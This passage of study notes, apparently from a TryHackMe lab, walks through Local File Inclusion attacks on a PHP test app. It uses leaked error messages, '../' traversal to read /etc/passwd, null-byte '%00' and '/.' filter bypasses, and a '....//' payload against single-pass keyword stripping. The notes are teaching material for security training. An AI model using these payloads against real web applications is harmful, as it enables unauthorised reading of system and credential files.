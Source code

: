 ### LFI Example 3 - Unknown Source Code (Black-box)
1. In the first two cases, the source code for the web app was checked, and then the tester knew how to exploit it.
2. However, in this case, black box testing is being performed in which the source code is not known.
3. Errors are very significant in understanding how the data is passed and processed into the web app.
4. The entry point is `http://webapp.thm/index.php?lang=EN`.
5. If an invalid input is entered such as `THM`, then the following error is displayed: `Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12`.
    * The error message discloses what the `include` function looks like: `include(languages/THM.php);`.
    * If the directory is looked at closely, the function includes files in the languages directory and is adding `.php` at the end of the entry.
10. Valid input will be something like `index.php?lang=EN`.
    * Where the file `EN` is located inside the given languages directory and named `EN.php`.
12. The error message disclosed another important piece of information about the full web application directory path, which is `/var/www/html/THM-4/`.
13. To exploit this, use the `../` trick to escape the current folder.
14. Try: `http://webapp.thm/index.php?lang=../../../../etc/passwd`.
     * 4 x `../` were used because the path has four levels `/var/www/html/THM-4`.
17. A `Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12` error is still received.
    * The `include` function still reads the input with `.php` at the end.
    * The developer specifies the file type to pass to the `include` function.
21. To bypass this, use the NULL BYTE, which is `%00`.
    * The `%00` trick is fixed and not working with PHP 5.3.4 and above.
    * Using null bytes is an injection technique where URL encoded representation such as `%00` or `0x00` in hex with user supplied data to terminate strings.
    * This is trying to trick the web app into disregarding whatever comes after the Null Byte.
24. By adding the Null Byte at the end of the payload, it is telling the `include` function to ignore anything after the null byte:
    * `include("languages/../../../../../etc/passwd%00").".php");` which equivalent to `include("languages/../../../../../etc/passwd");`
### LFI Example 4 - Filtered `/etc/passwd` File
1. The developer has now decided to filter keywords to avoid disclosing sensitive information.
   * The `/etc/passwd` file is being filtered.
3. The first method of bypassing the filter is to use the NullByte: `%00`.
   * `http://webapp.thm/index.php?lang=/etc/passwd%00`.
5. The second method is the current directory trick at the end of the filtered keyword: `/.`.
   * `http://webapp.thm/index.php?lang=/etc/passwd/.`.
      * To make this clearer, apply the concept to the file system:
      * `cd ..` goes back one step toward the root directory.
        *  If `/etc/passwd/..` is tried it results to be  `/etc/` because the command moved one level to the root.
      * `cd .` stays in the current directory.
        *  If `/etc/passwd/.` is tried the result will be `/etc/passwd` since dot refers to the current directory.
### LFI Example 5 - Keyword Filtering
1. Next, the developer starts to use input validation by filtering some keywords.
3. Test using `http://webapp.thm/index.php?lang=../../../../etc/passwd`
4. A `Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15` is displayed.
   * The `include(languages/etc/passwd)` section of the warning shows that the web application replaces `../` with an empty string.
7. Send the following payload to bypass it `....//....//....//....//....//etc/passwd`.
   * This works because the PHP filter only matches and replaces the first subset string `../` it finds and doesn't do another pass.
### LFI Example 6 - Defined Directory
1. Finally, the developer now forces the `include` to read from a defined directory (languages).